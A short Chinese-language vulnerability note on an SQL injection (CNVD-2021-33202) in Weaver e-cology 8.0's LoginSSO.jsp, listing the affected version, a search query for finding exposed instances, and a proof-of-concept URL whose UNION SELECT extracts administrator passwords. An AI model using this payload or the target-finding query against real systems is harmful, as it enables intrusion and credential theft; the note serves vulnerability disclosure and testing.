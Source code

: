 # 

# 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](./images/202205201339405.png)

验证POC

```
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![image-20220520134011931](./images/202205201340985.png)
